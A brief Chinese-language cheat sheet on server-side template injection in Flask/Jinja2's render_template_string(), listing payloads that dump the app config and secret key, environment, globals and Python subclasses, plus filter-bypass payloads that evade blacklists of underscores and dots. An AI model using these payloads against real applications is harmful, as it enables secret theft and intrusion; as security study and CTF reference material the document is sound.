 # 服务端模板注入

Server Side Template Injection

## render_template_string()

flask中自带函数

可以套出flask中相关变量

### payloads:

* `{{ config }}`
    * 获取Secret Key
* `{{ request.environ }}`
    * 服务器信息
* `{{ url_for.__globals__}}`
    * 全局函数中的好东西
* `{{url_for.__globals__['current_app'].config}}`
    * 同第一个
* `{{session}}`
    * session对象
* `{{ [].class.base.subclasses() }}`
* `{{''.class.mro()[1].subclasses()}}`
    * 获取所有类

更多见~~待填坑的~~Python jail

### 绕过

* `_`
    * `exploit={{request[request.args.param]}}&param=__class__`
* `.` 或`[]`
    * 使用jinja2 filters `|attr()`
    * `exploit={{request|attr(request.args.param)}}&param=__class__`
    * `__getitem__()`
* 黑名单词绕过
    * 用join`exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`
    * 用format`exploit={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_`



## Reference

* https://www.freebuf.com/articles/web/98619.html
* https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti
* http://jinja.pocoo.org/docs/dev/templates/#builtin-globals
* https://nvisium.com/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html
* https://portswigger.net/blog/server-side-template-injection